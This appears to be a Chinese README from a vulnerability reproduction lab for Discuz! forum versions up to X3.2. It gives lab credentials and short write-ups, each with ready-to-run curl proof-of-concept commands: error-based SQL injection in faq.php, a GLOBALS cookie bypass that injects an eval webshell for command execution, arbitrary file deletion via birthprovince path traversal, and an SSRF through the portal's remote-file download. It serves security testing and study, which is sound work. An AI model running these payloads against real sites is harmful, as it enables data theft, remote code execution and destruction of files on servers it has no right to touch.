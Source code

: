## 环境说明

* src/discuz/x3.1
  * 后台地址http://127.0.0.1/admin.php
  * 管理员账号admin/admin
  * 测试账号test/123456

## faq.php gids 报错注入

测试镜像

* src/discuz/7.2/

影响版本 

* <= 7.2

参考链接

* [Discuz!7.2 faq.php文件SQL注入漏洞分析及利用实战](http://blog.51cto.com/simeon/1440000)

Poc

```
curl -g '127.0.0.1/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=%29%20and%20%28select%201%20from%20%28select%20count%28*%29,concat%28user%28%29,floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29%23'
```

## Discuz! 6.x/7.x 全局变量防御绕过漏洞

测试镜像

* src/discuz/7.2/

影响版本

* 6.X
* 7.X

参考链接

* [Discuz! 6.x/7.x 全局变量防御绕过导致命令执行](https://www.secpulse.com/archives/2338.html)

Poc - 替换帖子为正确地址

```
curl '127.0.0.1/viewthread.php?tid=13&extra=page%3D1' -H 'Cookie: GLOBALS[_DCACHE][smilies][searcharray] = /.*/eui; GLOBALS[_DCACHE][smilies][replacearray] = eval%28%24_POST%5BMH%5D%29%3B' -d 'MH=die(md5(1));'
```

## birthprovince 任意文件删除

测试镜像

* src/discuz/x3.2/

影响版本 

* <= X3.2

参考链接

* [Discuz!X前台任意文件删除漏洞重现及分析](http://www.freebuf.com/vuls/149904.html)

Poc

```
设置要删除的文件
curl 'http://127.0.0.1/home.php?mod=spacecp&ac=profile&op=base' -d 'birthprovince=../../../hello.txt&profilesubmit=1&formhash=...' -H 'Cookie: ...''

触发漏洞
curl 'http://127.0.0.1/home.php?mod=spacecp&ac=profile&op=base' -F 'profilesubmit=1' -F 'formhash=...' -F birthprovince=@1.jpg -H 'Cookie: ...'
```



## Discuz X门户文章功能SSRF漏洞

测试镜像

- src/discuz/x3.1

影响版本 

- Discuz X系列 <= X3.1

参考链接

- [Discuz X系列门户文章功能SSRF漏洞挖掘与分析](https://www.anquanke.com/post/id/84000)

Poc

使用测试账号test/123456登陆首页，访问url

```
http://172.17.0.2/forum.php?mod=redirect&goto=findpost&modthreadkey=1&ptid=1&pid=1
```

在跳转后的页面URL：

```
http://172.17.0.2/forum.php?mod=viewthread&tid=1&page=1&modthreadkey=c3564b479d72b05e136e62e2af4762c4#pid1
```

包含modthreadkey参数，在跳转后的页面源码中包含formhash参数，

```html
<input type="hidden" name="formhash" value="7d96833f" />
```

从控制台查看network获取当前cookie，构造SSRF触发链接

```
curl --cookie "获取的cookie" -d "a=a" "http://172.17.0.2/portal.php?mod=portalcp&ac=upload&aid=1&catid=1&op=downremotefile&formhash=7d96833f&modarticlekey=c3564b479d72b05e136e62e2af4762c4&content=%3Cimg%20src=http://172.17.0.1/test_ssrf%231.png%3E
```

其中参数formhash为页面源码中获取的formhash，modarticlekey为跳转链接中的modthreadkey参数，172.17.0.1为SSRF请求的目标机器IP，在该机器上监听80端口，执行以上curl即可触发SSRF